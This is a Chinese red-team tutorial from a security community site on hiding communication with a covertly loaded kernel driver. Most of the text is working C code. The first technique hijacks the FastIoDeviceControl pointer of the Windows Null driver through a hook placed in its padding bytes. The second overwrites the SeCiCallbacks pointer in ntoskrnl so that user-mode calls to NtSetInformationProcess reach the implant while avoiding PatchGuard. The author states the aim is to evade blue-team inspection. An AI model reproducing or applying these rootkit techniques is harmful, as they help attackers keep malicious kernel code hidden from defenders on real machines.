# 高级红队之驱动通信隐藏技术 - 先知社区

高级红队之驱动通信隐藏技术

* * *

### 前言：

上一章简单说了驱动在无签名时如何进行加载，但我们加载后还需要与三环建立通信。如果我们使用IO进行通信，在使用mapper加载后会蓝屏且很容易被发现。所以我们需要一些其他的手段进行通信：

1.  劫持通信
2.  .data ptr技术

### 劫持通信：

可以直接通过字面意思来理解，就是劫持已经加载的驱动的通信来和我们进行通信。通常这个通信会选择Windows自带的驱动。我们可以使用火绒剑来看驱动的IO：

这个是驱动对象：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106105605-07776460-7c50-1.png)

这个是设备对象：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106105622-11504010-7c50-1.png)

这个是通信会得派遣函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106105643-1e1f5876-7c50-1.png)

如何知道这个驱动能否被劫持呢？这里就需要用到火绒剑他得派遣函数了：

如果说这两个被指定了，那我们就尽量不要去劫持了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106111220-4c8d0f3a-7c52-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106111315-6d10d034-7c52-1.png)

因为如果这两个有的话你再去劫持，会使原本的驱动通信失效，导致操作系统出现种种问题。这里给出一个可以劫持的案例：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106112756-7a693f30-7c54-1.png)

这样的话我们去修改fastio就是改的堆内存的一个地址，且目标没有指定fastio也不会存在错误通信导致的蓝屏问题

#### 代码编写：

```plain
BOOLEAN DeviceIoControl(
    _In_ struct _FILE_OBJECT* FileObject,
    _In_ BOOLEAN Wait,
    _In_opt_ PVOID InputBuffer,
    _In_ ULONG InputBufferLength,
    _Out_opt_ PVOID OutputBuffer,
    _In_ ULONG OutputBufferLength,
    _In_ ULONG IoControlCode,
    _Out_ PIO_STATUS_BLOCK IoStatus,
    _In_ struct _DEVICE_OBJECT* DeviceObject
)
{
    if (MmIsAddressValid(InputBuffer) && MmIsAddressValid((PUCHAR)InputBuffer + InputBufferLength - 1))
    {
        Comm* mem = (Comm*)InputBuffer;
        if (mem->cmd == 0x12345678)
        {

            KdPrint(("OK Comm!\r\n"));

            IoStatus->Information = 0;
            IoStatus->Status = STATUS_SUCCESS;

        }
    }
    //DbgBreakPoint();
    return TRUE;
}

NTSTATUS RegisterComm() {

    UNICODE_STRING deviceName = { 0 };

    RtlInitUnicodeString(&deviceName, L"\\Device\\Null"); //设备名称
    PDEVICE_OBJECT pDevice = NULL;
    PFILE_OBJECT fileObject = NULL;
    NTSTATUS status = IoGetDeviceObjectPointer(&deviceName,FILE_ALL_ACCESS,&fileObject,&pDevice); //根据设备名获取到设备对象
    if (!NT_SUCCESS(status))
    {
        return status;
    }

    if (fileObject!=NULL)
    {
        ObDereferenceObject(fileObject); //取消引用
    }

    PDRIVER_OBJECT pDriver = pDevice->DriverObject;


    pDriver->FastIoDispatch->FastIoDeviceControl = DeviceIoControl; //指定派遣函数
    return STATUS_SUCCESS;
}
```

R3通信代码：

```plain
HANDLE hDevice = CreateFileA("\\??\\Nul", FILE_GENERIC_WRITE | FILE_GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    Comm comm = { 0 };
    comm.cmd = 0x12345678;
    comm.id = 111;
    DWORD retLen = 0;
    DeviceIoControl(hDevice, 0, &comm, sizeof(comm), &comm, sizeof(comm), &retLen, NULL);
```

kdmapper加载成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106154531-75defaee-7c78-1.png)

查看火绒中的fastIo：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106154628-97d11812-7c78-1.png)

可以发现已经成功注册了，但是存在一个问题就是这个地址因为我们驱动隐藏的原因成了一个无模块的地址。如果蓝队仔细查看的话还是会看出端倪，R3通信：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106154741-c3ca9ab0-7c78-1.png)

这样就成功劫持了系统驱动的IO进行通信，隐藏了通信：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106154818-d9c52e2a-7c78-1.png)

接下来就是处理这个模块，思路如下：

1.  找到Null驱动中空白字节
2.  修改内存属性为PAGE\_EXCUTE\_READWIRTE
3.  HOOK该地址跳转到我们的函数

代码如下：

```plain
ULONG64 hookPtr = searchCode("null.sys", ".text", "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0);


    status = hook_by_addr(hookPtr, DeviceIoControl,&num);

    if (!NT_SUCCESS(status))
    {
        return status;
    }

    KdPrint(("hook Ptr = %p\r\n", hookPtr));
    pDriver->FastIoDispatch->FastIoDeviceControl = hookPtr; //指定派遣函数
```

这样再去看派遣就变成Null.sys内部的地址了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231109104556-1b73d5aa-7eaa-1.png)

### .data ptr 通信技术

什么是.data ptr？我们知道在3环下调用函数流程如下：

1.  OpenProcess
2.  NtOpenProcess（ZwOpenProcess）
3.  syscall
4.  kernel NtOpenProcess

那么我们在kernel中找到一个函数，hook他就可以达到通信的效果。但是现阶段微软引入了PG导致我们不能够HOOK系统中的函数，那么我们就需要换一种思路

1.  找到三环syscall零环的函数
2.  查看该函数是否有调用指针函数
3.  修改指针

这样来进行HOOK，我们修改的是指针而不是代码段。有部分指针微软并没有检测，我们只需要找到该指针就可以了。示例：

NtSetInformationProcess函数中有这么一段代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231109112520-9c7b9bb0-7eaf-1.png)

当a2 == 90的时候会调用`SeCodeIntegritySetInformationProcess`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231109112556-b1c551be-7eaf-1.png)

这个函数中调用了指针函数，那么我们只需要修改这个指针的值就可以实现在三环下调用NtSetInformationProcess来和零环进行通信了:

```plain
ULONG_PTR func = searchCode("ntoskrnl.exe", "PAGE", "458bf1498bf0448bfa4c8be148833d*****75*b8BB0000C0eb6541b853652020", 0);
    if (func)
    {
        DWORD32 offset = *(DWORD32*)(func + 15);
        PULONG64 SeCiCallbacks = ((func + 15 + 5) & 0xFFFFFFFF00000000) + ((func + 15 + 5 + offset) & 0xFFFFFFFF);
        gWin10HookPoint = SeCiCallbacks;
        gOldSeCiCallbacksWin10 = SeCiCallbacks[0];
        SeCiCallbacks[0] = fnSeCiCallbacksWin10;
    }

    return STATUS_SUCCESS;
```

通信函数：

```plain
ULONG64 fnSeCiCallbacksWin10(ULONG64 info, DWORD32 un2, ULONG64 un3, DWORD32 un4) {

    if (MmIsAddressValid(info))
    {

        CommPackage* package = (CommPackage*)info;

        if (package->Id == 0x12345678)
        {
            KdPrint(("OK Comm! id:%d\r\n", package->id));
        }
        else
        {
            if (gOldSeCiCallbacksWin10)
            {
                return gOldSeCiCallbacksWin10(info, un2, un3, un4);
            }

        }


    }

    return STATUS_SUCCESS;


}
```

三环调用：

```plain
void main() {


    NtSetInformationProcess fnNtSetCachedSigningLevel = (NtSetInformationProcess)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtSetInformationProcess");
    Comm cp;
    cp.id = 0x9;
    cp.cmd = 0x12345678;

    fnNtSetCachedSigningLevel((ULONG64)&cp, 90, (ULONG64)&cp, sizeof(cp));

}
```

通信成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231109150659-9364e71a-7ece-1.png)

### 前文：

[https://xz.aliyun.com/t/12965](https://xz.aliyun.com/t/12965)
